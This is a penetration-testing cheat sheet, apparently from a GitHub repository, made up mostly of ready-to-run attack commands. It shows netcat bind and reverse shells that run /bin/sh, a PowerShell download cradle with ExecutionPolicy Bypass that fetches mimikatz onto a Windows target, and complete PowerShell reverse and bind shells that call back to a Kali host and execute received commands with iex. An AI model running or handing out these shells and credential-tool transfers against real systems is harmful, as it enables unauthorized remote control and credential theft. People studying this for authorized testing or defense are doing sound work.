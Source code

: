 # Commands for establishing connections and transfering files
https://manpages.debian.org/bullseye/netcat-traditional/nc.1.en.html

## Connecting using netcat
### Listening:
```console
nc -nlvp $PORT
```

### Connecting:
```console
nc -nv $ADDRESS $PORT
```

- `-n` : numeric-only IP addresses, no DNS
- `-l` : listen mode, for inbound connects
- `-v` : verbose [use twice to be more verbose]
- `-p` : local port number (port numbers can be individual or ranges: lo-hi [inclusive])

## File transfer
### Receiving file:
```console
nc -nlvp $PORT > $FILENAME_RCPT
```

### Sending file:
```console
nc -np $PORT < $FILENAME_SEND
```

## Bind shell
### Listening:
```console
FILENAME=/bin/sh
nc -nlvp $PORT -e $FILENAME
```
`-e` : specify filename to exec after connect (use with caution). See the -c option for enhanced functionality.

### Connecting:
```console
nc -nv $ADDRESS $PORT
```

## Reverse bind shell
### Listening:
```console
nc -nlvp $PORT
```
### Connecting:
```console
FILENAME=/bin/sh
nc -nv $ADDRESS $PORT -e $FILENAME
```

## Downloading files from Kali to Windows target
### Setup http web server:
```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
sudo python3 -m http.server 80 &> /dev/null &
```

### Downloading:
```console
set SRC_URL=http://kali.vx/mimikatz.exe
set DST_PATH=%USERPROFILE%\mimikatz.exe
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile($env:SRC_URL,$env:DST_PATH)
```

## Windows reverse bind shell
### Setup listening in kali:
```console
nc -lnvp $PORT
```
### Powershell code:
```console
$ADDRESS='kali.vx'
$PORT=443
$CLIENT = New-Object System.Net.Sockets.TCPClient($ADDRESS,$PORT)
$STREAM = $CLIENT.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$SENDBACK = (iex $DATA 2>&1 | Out-String )
$SENDBACK2 = $sendback + 'PS ' + (pwd).Path + '> '
$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2)
$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length)
$STREAM.Flush()
}
$CLIENT.Close()
```
### Running powershell from cmd:
```console
set ADDRESS=kali.vx
set PORT=443
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "$CLIENT = New-Object System.Net.Sockets.TCPClient($env:ADDRESS,$env:PORT);$STREAM = $CLIENT.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0){$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$SENDBACK = (iex $DATA 2>&1 | Out-String );$SENDBACK2 = $sendback + 'PS ' + (pwd).Path + '> ';$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2);$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length);$STREAM.Flush()};$CLIENT.Close();"
```

## Windows bind shell
### Powershell code:
```console
$PORT=443
$LISTENER = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$PORT)
$LISTENER.start()
$CLIENT = $LISTENER.AcceptTcpClient()
$STREAM = $CLIENT.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$SENDBACK = (iex $DATA 2>&1 | Out-String )
$SENDBACK2 = $SENDBACK + 'PS ' + (pwd).Path + '> '
$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2)
$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length)
$STREAM.Flush()
}
$CLIENT.Close()
$LISTENER.Stop()
```

### Running powershell from cmd:
```console
set PORT=443
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "$LISTENER = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$env:PORT);$LISTENER.start();$CLIENT = $LISTENER.AcceptTcpClient();$STREAM = $CLIENT.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0){$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$SENDBACK = (iex $DATA 2>&1 | Out-String );$SENDBACK2 = $SENDBACK + 'PS ' + (pwd).Path + '> ';$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2);$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length);$STREAM.Flush()};$CLIENT.Close();$LISTENER.Stop();"
```

### Connecting from kali:
```console
nc -nv $ADDRESS $PORT
```
